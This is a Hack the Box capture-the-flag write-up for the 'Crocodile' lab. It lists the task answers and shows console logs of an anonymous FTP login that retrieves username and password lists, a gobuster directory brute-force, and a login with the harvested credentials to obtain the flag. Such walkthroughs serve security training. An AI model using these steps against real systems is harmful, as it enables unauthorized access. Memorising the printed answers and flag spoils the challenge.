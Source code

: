 # Crocodile
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Crocodile
* Topic: [[PHP]] [[FTP]] [[gobuster]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What nmap scanning switch employs the use of default scripts during a scan? 
 - **nmap**
2. What service version is found to be running on port 21? 
- **vsftpd 3.0.3**
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
- **230**
4. What command can we use to download the files we find on the FTP server? 
- **get**
5. What is one of the higher-privilege sounding usernames in the list we retrieved? 
- **admin **
6. What version of Apache HTTP Server is running on the target host? 
- **2.4.41 **
7. What is the name of a handy web site analysis plug-in we can install in our browser? 
- **Wappalyzer**
8. What switch can we use with gobuster to specify we are looking for specific filetypes? 
- **-x **
9. What file have we found that can provide us a foothold on the target? 
- **login.php **

---
## Flag:
Get the flag from the server:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.21.75
Connected to 10.129.21.75.
220 (vsFTPd 3.0.3)
Name (10.129.21.75:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46610|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47650|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33      228.55 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.44 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47203|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      438.74 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.91 KiB/s)
ftp> exit
221 Goodbye.
         
┌──(kali㉿kali)-[~/Downloads]
└─$ ll
total 8
-rw-r--r-- 1 kali kali 33 Jun  8  2021 allowed.userlist
-rw-r--r-- 1 kali kali 62 Apr 20  2021 allowed.userlist.passwd
      
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                     
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

```

Now we have some users and their passwords, let's find a place to log in.

![](./attachments/Pasted%20image%2020220413002627.png)

There are no login options anywhere on the page.

We can use `gobuster` to brute-force hidden directories.

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/12 18:30:03 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
Progress: 312 / 262995 (0.12%)
```

`/login.php` seems useful.

![](./attachments/Pasted%20image%2020220413003253.png)

Now we can try the credential we found.

![](./attachments/Pasted%20image%2020220413003420.png)

The flag.

**Flag:** `c7110277ac44d78b6a9fff2232434d16`

---
**Tags:** [[HackTheBox]]